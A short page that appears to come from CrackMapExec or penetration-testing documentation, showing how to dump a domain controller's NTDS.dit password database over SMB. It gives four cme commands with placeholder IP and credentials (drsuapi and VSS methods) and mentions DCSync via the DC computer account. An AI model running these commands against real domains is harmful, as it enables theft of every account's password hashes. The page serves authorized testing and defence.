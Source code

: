 # Dump NTDS.dit

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}
